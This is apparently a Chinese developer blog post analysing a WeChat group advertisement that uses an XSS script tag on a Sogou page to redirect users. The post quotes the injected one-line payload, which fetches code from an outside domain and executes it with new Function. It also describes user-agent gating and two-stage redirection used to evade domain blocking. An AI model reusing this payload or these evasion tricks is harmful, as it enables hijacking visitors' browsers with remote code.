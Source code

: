 ```yaml
---
title: 一个意思的微信群广告
date: 2022-10-06 18:00:00
categories: 前端
tags:
  - 安全
img: ../../coverImages/xss.png
---
```


群广告，语不惊人死不休，

![](/images/2022/10/06/16650521586506.jpg)


跳转之后，出现 sougou 的页面，然后重定向到广告页面。

![](/images/2022/10/06/16650521657367.jpg)


构造了一个 xss，script 标签，被执行。

```js
fetch('//iprozz.com/ffff').then(r=>r.text()).then(C=>new Function(C)())
```

`iprozz.com/ffff` 请求发出去之后，被执行，页面跳转到广告页面。`new Function(C)()` 这种函数执行方式平时用的还是非常少的，安全方面，各种奇奇怪怪的写法，挺有意思。

如果只是到这里，也没必要写这篇博客。尝试调试的时候，发现，在一般浏览器里面是无法请求这个地址的，似乎只在微信的浏览器的可以请求，应该是识别了微信的ua。这样二级跳转，可以对域名做一层保护，减少被封。当域名被封之后，也可以修改服务端的跳转地址，实现快速更换域名的目的。

做戏做全套，我们平时的开发中经常抱有侥幸心理，对比一下人家的态度，我们真的能比骗子更专业吗？